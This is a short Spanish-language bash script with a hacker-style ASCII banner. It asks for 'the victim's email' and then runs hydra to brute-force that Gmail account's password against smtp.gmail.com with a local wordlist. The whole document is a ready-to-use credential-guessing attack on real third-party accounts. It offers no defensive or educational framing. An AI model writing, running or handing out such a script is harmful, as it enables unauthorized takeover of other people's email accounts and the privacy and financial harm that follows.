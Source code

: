 #!/bin/bash


echo ' 

 

  /$$$$$$    /$$                     /$$   /$$                     /$$      
 /$$__  $$  | $$                    | $$  | $$                    | $$      
| $$  \ $$ /$$$$$$   /$$   /$$      | $$  | $$  /$$$$$$   /$$$$$$$| $$   /$$
| $$$$$$$$|_  $$_/  | $$  | $$      | $$$$$$$$ |____  $$ /$$_____/| $$  /$$/
| $$__  $$  | $$    | $$  | $$      | $$__  $$  /$$$$$$$| $$      | $$$$$$/ 
| $$  | $$  | $$ /$$| $$  | $$      | $$  | $$ /$$__  $$| $$      | $$_  $$ 
| $$  | $$  |  $$$$/|  $$$$$$$      | $$  | $$|  $$$$$$$|  $$$$$$$| $$ \  $$
|__/  |__/   \___/   \____  $$      |__/  |__/ \_______/ \_______/|__/  \__/
                     /$$  | $$                                              
                    |  $$$$$$/                                              
                    \______/                                                
                                                                                 
================================================================================

' 
echo '-Introduzca el email de la victima:'
read gmail

hydra -S -l $gmail -P /root/HACKS/diccionarios/diccionario.txt -v -V -e ns -s 465 smtp.gmail.com smtp
